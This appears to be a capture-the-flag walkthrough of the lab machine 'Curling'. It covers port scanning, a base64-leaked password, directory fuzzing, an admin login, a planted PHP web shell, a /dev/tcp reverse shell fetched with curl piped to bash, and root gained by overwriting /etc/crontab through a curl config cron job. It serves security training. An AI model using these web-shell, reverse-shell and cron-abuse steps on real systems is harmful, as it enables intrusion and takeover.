 ![Curling.PNG](/assets/Machines/Easy/Curling/Curling.png)


1. Send an ICMP echo request to machine's IP address.
```bash
┌──(root㉿est)-[/home/kali]
└─| ping -c 2 10.10.10.150
```


2. Scan open ports with **nmap**.
```bash
┌──(root㉿kali)-[/home/kali]
└─| nmap -p- --open -vv -sS --min-rate 5000 -Pn -n 10.10.10.150
```

**Output**
```bash
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

3. Visit webpage
![web.PNG](/assets/Machines/Easy/Curling/web.PNG)

* We found one user: **Floris**


4. View source code from web page. Press `Ctrl` + `u`

![leak.PNG](/assets/Machines/Easy/Curling/leak.PNG)

* In last part of code we found **leak information** 

5. Visit file found previously

* URL: `http://10.10.10.150/secret.txt`
* Secret: `Q3VybGluZzIwMTgh`


6. Decode this line with base64
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Curling]
└─| echo "Q3VybGluZzIwMTgh" | base64 -d
Curling2018!
```

* Now we have import information like user and posible password `Floris:Curling2018!`

* This credentials not function in ssh.

7. Do **Directory Fuzzing**, you can use **dirbuster** | **wfuzz** or any tool.
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Curling]
└─| wfuzz -c -t 200 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt http://10.10.10.150/FUZZ/
```

**Output**
```
00000002:   200        1 L      2 W        31 Ch       "images"     
000000069:   403        9 L      28 W       277 Ch      "icons"   
000000464:   200        1 L      2 W        31 Ch       "bin"   
000000067:   200        1 L      2 W        31 Ch       "templates"    
000000066:   200        1 L      2 W        31 Ch       "media"   
000000612:   200        1 L      2 W        31 Ch       "includes"     
000000499:   200        1 L      2 W        31 Ch       "plugins"   
000000131:   200        1 L      2 W        31 Ch       "modules" 
000000827:   200        1 L      2 W        31 Ch       "language"
000001019:   200        1 L      2 W        31 Ch       "cache"
000000951:   200        1 L      2 W        31 Ch       "components"
000001167:   200        1 L      2 W        31 Ch       "libraries"
000003017:   200        1 L      2 W        31 Ch       "tmp"
000003312:   200        1 L      2 W        31 Ch       "layouts"
000005294:   200        109 L    348 W      5110 Ch     "administrator"
000019068:   200        1 L      2 W        31 Ch       "cli"
000089167:   403        9 L      28 W       277 Ch      "server-status"
```

8. Visit **administrator** and use previous credentials

![login.PNG](/assets/Machines/Easy/Curling/login.PNG)

9. To try execute commands go to `Configuration>Templates>Templates>Protostar>index.html`

* Add this line of code `system($_REQUEST['cmd']);`  in any part of document, after this **Save & Exit**

10. Visit again first web page and try to execute a command

* URL: `http://10.10.10.150/index.php?cmd=whoami`

![out.PNG](/assets/Machines/Easy/Curling/out.PNG)

11. Get a reverse shell

* First, create a **index.html** with next bash code.
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Curling]
└─| cat index.html 
#!/bin/bash

bash -i &> /dev/tcp/10.10.14.14/443 0>&1
```

* Then, create a http server with python in current directory of previous .html file
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Curling]
└─| python -m http.server 80
```

* Next, use this code to read out .html file and execute with bash
* **Code:** `curl <tun0 IP>|bash`

* Remember listen with nc in port choosed


12. Now we obtain a shell
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Curling]
└─# nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.29] from (UNKNOWN) [10.10.10.150] 47262
bash: cannot set terminal process group (1404): Inappropriate ioctl for device
bash: no job control in this shell
www-data@curling:/var/www/html$
```

13. Show all files in **floris directory**
```bash
www-data@curling:/tmp$ ls -la /home/floris/
total 44
drwxr-xr-x 6 floris floris 4096 Aug  2 14:44 .
drwxr-xr-x 3 root   root   4096 Aug  2 14:44 ..
lrwxrwxrwx 1 root   root      9 May 22  2018 .bash_history -> /dev/null
-rw-r--r-- 1 floris floris  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 floris floris 3771 Apr  4  2018 .bashrc
drwx------ 2 floris floris 4096 Aug  2 14:44 .cache
drwx------ 3 floris floris 4096 Aug  2 14:44 .gnupg
drwxrwxr-x 3 floris floris 4096 Aug  2 14:44 .local
-rw-r--r-- 1 floris floris  807 Apr  4  2018 .profile
drwxr-x--- 2 root   floris 4096 Aug  2 14:44 admin-area
-rw-r--r-- 1 floris floris 1076 May 22  2018 password_backup
-rw-r----- 1 floris floris   33 Jan 14 14:32 user.txt
```

* File **password_backup** is a compress file.

| Extension | Decompress |
|:---------:|:----------:|
|  **bz2**  | `bzip2 -d <File>` |
|   **gz**  | `unzip <File>`    |
|  **tar**  | `tar -xf <File>`  |


14. After decompress multiple times we obtain a password from user floris
```bash
www-data@curling:/tmp$ cat password.txt 
5d<wdCbdZu)|hChXll
```

15. Login how floris user and cat **user flag**
```bash
floris@curling:~$ cat user.txt 
2b7d828f3c94d3f3052d050d4bec99e0
```

---
---
---
### **Privileges Escalation** 💀
1. Use pspy to discover posible contrabs

* To transfer pspy file, create a http.server with python and in the target machine use **wget** to download and execute.
```bash
2023/01/14 15:49:01 CMD: UID=0    PID=3025   | curl -K /home/floris/admin-area/input -o /home/floris/admin-area/report 
```

* We watch this, crontab use `-K` parameter and this crontab is running by root (UID=0)

**Example to use -K parameter**
```bash
# --- Example file ---
               # this is a comment
               url = "example.com"
               output = "curlhere.html"
               user-agent = "superagent/1.0"
```

2. In this case we create a malicious crontab

* First, copy our crontab file
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Curling]
└─| cp /etc/crontab .
```

* Then, modify this to change /bin/bash permissions
```bash
1 *    * * *   root    chmod u+s /bin/bash
```

* Next, use python to create a http server

* Finally, modify **input** file in target machine
```bash
url = "http://<Tun0 IP>/crontab"
output = "/etc/crontab"
```

3. Wait some minutes and finally...
```bash
floris@curling:~/admin-area$ ls -l /bin/bash 
-rwsr-xr-x 1 root root 1113504 Jun  6  2019 /bin/bash
```

4. Execute a bash how root and cat **root flag**
```bash
floris@curling:~/admin-area$ bash -p
bash-4.4# whoami
root
```

```bash
bash-4.4# cat /root/root.txt 
a92321c558ef3b3c5345f1690362d749
```